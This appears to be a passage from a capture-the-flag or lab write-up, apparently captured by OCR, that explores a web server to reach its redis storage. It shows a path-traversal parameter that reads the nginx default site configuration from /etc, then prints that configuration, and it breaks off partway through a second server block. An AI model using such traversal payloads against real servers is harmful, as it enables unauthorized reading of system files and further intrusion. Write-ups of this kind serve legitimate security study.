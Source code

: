 We need a way to access redis storage.
### redis storage

In order to find a way to access redis, let's explore the configuration of the HTTP server, nginX. For this, we can read the config file of the default HTTP application :

`id=../../../../../../../../etc/nginx/sites-enabled/default&txt=test`

```nginx
### You should look at the following URL's in order to grasp a solid understanding
# of Nginx configuration files in order to fully unleash the power of Nginx.
# https://www.nginx.com/resources/wiki/start/
# https://www.nginx.com/resources/wiki/start/topics/tutorials/config_pitfalls/
# https://wiki.debian.org/Nginx/DirectoryStructure
## In most cases, administrators will remove this file from sites-enabled/ and
# leave it as reference inside of sites-available where it will continue to be
# updated by the nginx packaging team.
## This file will automatically load configuration files provided by other
# applications, such as Drupal or Wordpress. These applications will be made
# available underneath a path with that package name, such as /drupal8.
## Please see /usr/share/doc/nginx-doc/examples/ for more detailed examples.
### Default server configuration#server 
{
 listen 80 default_server;
 listen [::]:80 default_server;
 # SSL configuration 
 # # listen 443 ssl default_server;
 # listen [::]:443 ssl default_server;
 # # Note: You should disable gzip for SSL traffic. 
 # See: https://bugs.debian.org/773332 
 # # Read up on ssl_ciphers to ensure a secure configuration. 
 # See: https://bugs.debian.org/765782 
 # # Self signed certs generated by the ssl-cert package 
 # Don't use them in a production server! 
 # # include snippets/snakeoil.conf; 
 root /var/www/html; 
 # Add index.php to the list if you are using PHP 
 index index.html index.htm index.nginx-debian.html; 
 server_name _; 
 location / { 
	# First attempt to serve request as file, then 
  # as directory, then fall back to displaying a 404. 
  try_files $uri $uri/ =404;
 }
 # pass PHP scripts to FastCGI server 
 # #
 location ~ \.php$ {
  # include snippets/fastcgi-php.conf; 
  # # # With php-fpm (or other unix sockets): 
  # fastcgi_pass unix:/run/php/php7.4-fpm.sock; 
  # # With php-cgi (or other tcp sockets): 
  # fastcgi_pass 127.0.0.1:9000; 
  #
 }
 # deny access to .htaccess files, if Apache's document root 
 # concurs with nginx's one 
 # #
 location ~ /\.ht {
  # deny all; 
  #
 }
}
server {
 listen 80;
```